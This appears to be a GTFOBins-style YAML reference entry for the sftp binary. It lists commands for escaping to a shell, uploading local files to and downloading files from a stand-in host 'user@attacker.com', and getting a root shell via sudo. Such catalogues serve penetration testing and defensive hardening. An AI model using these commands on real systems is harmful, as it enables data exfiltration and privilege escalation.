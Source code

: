 functions:
  shell:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
  sudo:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
---
